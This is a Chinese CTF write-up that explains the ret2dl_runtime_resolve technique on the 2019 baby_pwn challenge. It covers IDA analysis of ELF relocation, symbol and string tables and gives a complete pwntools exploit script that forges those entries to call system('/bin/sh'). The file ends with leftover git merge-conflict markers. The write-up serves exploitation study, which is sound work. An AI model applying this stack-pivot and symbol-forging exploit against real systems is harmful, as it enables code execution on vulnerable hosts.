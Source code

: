 # dl_runtime_resolve实例分析
## IDA静态分析

这里用2019信安国赛的baby_pwn来做演示(就是因为这个做不出来去做了好多功课)，实例程序test在文件夹下，hack.py是实现本地攻击的脚本  

首先使用checksec查看文件保护状态，由于是partial relo所以并没机会改写动态段的字符串表地址。所以我们直接伪造所有所需要的参数结构。

ida动态段信息如下  

---

![1.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/1.png)

---  

d_tag字段值为DT_JMPREL,DT_SYMTAB,DT_STRTAB,分别保存了重定位表，字符串表，符号表

重定位表信息如下  

---

![2.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/2.png)

---

比如read函数的重定位条目r_offset字段保存read got表中的位置，r_info保存了符号表索引，低8位保存了符号绑定信息  

更据符号表索引追踪符号表信息如下  

---  

![3.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/3.png)  

---    

第一个字段是st_name表示字符串在字符串表中偏移，其他字段的值我们伪造时仿造其他常规函数即可，他们详细信息定义在elf头文件中。

字符串表如下。

---  

![4.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/4.png)  

---  

## 伪造参数  

---  

![5.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/5.png)  

---  

程序漏洞点很容易定位，就在vuln函数中有一处栈溢出，但是只有一个read函数可以调用，没有机会泄漏libc，所以就直接考虑ret2dlruntime  

```  

from pwn import *

elf = ELF('test')

strTab = 0x804827c
symTab = 0x80481dc
relTab = 0x804833c

plt0At = 0x8048380
bssAt =  0x804a040
baseAt = bssAt + 0x500  

#这些是程序中的小gadget(可利用的小片段)用来处理栈迁移
pppRet = 0x80485d9
popEbpRet = 0x80485db  
leaveRet = 0x804854a 

readPlt = elf.plt['read']
readGot = elf.got['read']

#缓冲区填充
nop = cyclic(0x28)

rop1 = nop
rop1 += cyclic(0x4)
rop1 += p32(readPlt)
#上面用来覆盖返回地址为read函数，向可控制的bss段写入rop
#pppret作为返回地址，用来处理掉三个传递给read的函数
rop1 += p32(pppRet)
rop1 += p32(0)
rop1 += p32(baseAt-4)
rop1 += p32(0x100)
rop1 += p32(popEbpRet)
#迁移栈去ret plt0 我们在baseat处填入plt0的地址用于ret返回执行动态链接器
rop1 += p32(baseAt-4)
rop1 += p32(leaveRet)

#这是传递给dl_fixup函数的重定位条目偏移，几个4字节大小是用来计算伪造的重定位条目的地址
#这些4字节用于填充一些会用到的参数
relloc_offset = baseAt + 4 + 4 + 4 + 4 + 4 - relTab

#计算符号条目地址
symAt = relTab + relloc_offset + 0x8
#结构体要在内存中对齐
align = 0x10 - ((symAt-symTab)&0xf)
#计算出实际地址
symAt = symAt + align
#计算出表项索引
r_sym = (symAt - symTab)/0x10
r_info = (r_sym << 8) + 0x7
#伪造重定位条目
fakeRel = p32(readGot) + p32(r_info)

strAt = symAt + 0x10
st_name = strAt - strTab
#伪造符号表条目
fakeSym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

argStr = '/bin/sh\0'
funcStr = 'system\0'

argAt = strAt + len(funcStr)
#完成第二段rop的构造
rop2 = p32(baseAt-4)
rop2 += p32(plt0At)
rop2 += p32(relloc_offset)
rop2 += p32(readPlt)
rop2 += p32(argAt)
rop2 += cyclic(0x4)
rop2 += fakeRel
rop2 += '\0'*align
rop2 += fakeSym
rop2 += funcStr
rop2 += argStr  

r = process('./test')
r.send(rop1)
r.send(rop2)
r.interactive()

```  

## 测试  

---  

![6.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/6.png)  

---  

<<<<<<< HEAD
但是有点奇怪，有的时候脚本不成功，但是修改elf名，并且在代码中做修改就可以使用了，暂时无法理解。。。
希望有哪位师傅能解答下 ，比如截图时我就把test改名为pwn了....
=======
>>>>>>> 68b19505653344c917c796f1b69a6b9e1004742f






